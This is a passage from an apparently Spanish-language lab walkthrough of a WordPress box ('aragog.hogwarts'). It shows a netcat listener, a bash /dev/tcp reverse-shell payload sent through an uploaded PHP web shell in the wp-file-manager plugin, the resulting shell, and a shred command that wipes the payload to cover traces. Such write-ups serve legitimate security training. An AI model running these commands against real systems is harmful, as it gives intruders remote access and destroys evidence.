 Explicación: hemos logrado un RCE. Por lo que podemos enviarnos una reverse shell del siguiente modo

Acción:

```bash
nc -lvnp 443
```

Acción:

```url
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.66/443 0>%261"
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.82] 39936
bash: cannot set terminal process group (663): Inappropriate ioctl for device
bash: no job control in this shell
<ress/wp-content/plugins/wp-file-manager/lib/files$ 
```

Explicación: hemos obtenido una shell, por lo que hemos ganado acceso al sistema. Ahora tendremos que tratar de elevar privilegios y/o pivotar a otro sistema dentro del alcance de red que pueda tener el sistema actualmente comprometido


---

## Post Explotación

Acción:

```bash
shred -zun 10 -v payload.php 
```

Resultado:

```bash
shred: payload.php: pass 1/11 (random)...
shred: payload.php: pass 2/11 (924924)...
shred: payload.php: pass 3/11 (492492)...
shred: payload.php: pass 4/11 (ffffff)...
shred: payload.php: pass 5/11 (b6db6d)...
shred: payload.php: pass 6/11 (random)...
shred: payload.php: pass 7/11 (aaaaaa)...
shred: payload.php: pass 8/11 (555555)...
shred: payload.php: pass 9/11 (000000)...
shred: payload.php: pass 10/11 (random)...
shred: payload.php: pass 11/11 (000000)...
shred: payload.php: removing
shred: payload.php: renamed to 00000000000
shred: 00000000000: renamed to 0000000000
shred: 0000000000: renamed to 000000000
shred: 000000000: renamed to 00000000
shred: 00000000: renamed to 0000000
shred: 0000000: renamed to 000000
shred: 000000: renamed to 00000
shred: 00000: renamed to 0000
shred: 0000: renamed to 000
shred: 000: renamed to 00
shred: 00: renamed to 0
shred: payload.php: removed
```
